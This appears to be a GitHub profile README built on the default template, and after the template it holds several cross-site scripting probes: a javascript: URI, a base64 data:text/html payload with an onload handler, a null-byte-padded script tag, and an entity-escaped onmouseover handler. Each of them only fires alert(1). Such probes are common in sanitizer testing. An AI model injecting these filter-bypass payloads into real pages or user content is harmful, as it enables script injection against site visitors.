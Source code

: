- 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" color="javascript:javascript:alert(1)"/>

<img src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

](()
